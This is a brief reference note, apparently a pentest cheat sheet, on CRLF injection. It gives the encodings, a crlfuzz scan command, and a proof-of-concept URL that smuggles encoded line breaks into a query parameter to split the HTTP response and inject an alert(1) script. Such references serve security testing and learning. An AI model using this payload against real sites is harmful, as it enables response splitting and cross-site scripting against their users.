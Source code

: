 #   
CRLF

Carriage Return Line Feed

```
Carriage Return = ASCII 13, \r, %0D
Line Feed = ASCII 10, \n, %0A
```

## Tools

```
# https://github.com/dwisiswant0/crlfuzz
crlfuzz -u "http://example.com"
```

## POC

CRLF to XSS

```
http://www.example.com/somepage.php?page=%0d%0aContent-Length:%200%0d%0a%0d%0aHTTP/1.1%20200%20OK%0d%0aContent-Type:%20text/html%0d%0aContent-Length:%2025%0d%0a%0d%0a%3Cscript%3Ealert(1)%3C/script%3E
```
